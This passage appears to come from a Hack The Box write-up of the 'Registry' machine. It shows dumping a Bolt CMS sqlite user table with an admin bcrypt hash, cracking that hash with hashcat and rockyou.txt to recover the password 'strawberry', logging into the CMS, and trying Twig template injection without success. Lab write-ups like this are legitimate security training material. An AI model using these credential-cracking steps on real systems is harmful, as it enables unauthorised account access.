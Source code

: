 <p>Unfortunately admin/admin did not work out this time, nor did any other obvious choices - guess we can't get lucky twice.</p>

<p>Switching our focus back to the the /var/www/html/bolt/app folder, we do find something interesting - a sqlite file, bolt.db. Let's get a copy of that back over to our machine and see what we can get from it.</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Registry# sqlite3 bolt.db 
SQLite version 3.30.0 2019-10-04 15:03:17
Enter ".help" for usage hints.
sqlite> select * from bolt_users;
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-31 02:51:13|10.10.14.133|Admin|["files://test.php","files://mrxy.php"]|1||||0||["root","everyone"]
sqlite> 
{% endhighlight %}

<p>Alright interesting! A quick search online and we find the right format to run this through hashcat.</p>

{% highlight shell %}
 .\hashcat64.exe --help | Select-String " 3200"

   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating Systems
{% endhighlight %}

<p>Let's run it through rockyou.txt and see if we can get a hit.</p>

{% highlight shell %}
.\hashcat64.exe -m 0 .\registry.hash .\rockyou.txt -m 3200
{% endhighlight %}

<p>
<img src="{{ '/assets/htb-registry/root-hashcat.PNG' | relative_url }}">
</p>

<p>Beautiful! With our newfound <code>strawberry</code> password we should be able to access the CMS instance.</p>

<p>
<img src="{{ '/assets/htb-registry/root-cmdadmin.PNG' | relative_url }}">
</p>

<p>I ended up wasting quite a bit of time here playing with the twig formating. Since we weren't able to upload php files I attempted to get arbitrary code execution through twig, however I was only able to get basic things executed properly.</p>

<p>
<img src="{{ '/assets/htb-registry/root-twig.PNG' | relative_url }}">
</p>

<p>
<img src="{{ '/assets/htb-registry/root-twig2.PNG' | relative_url }}">
</p>
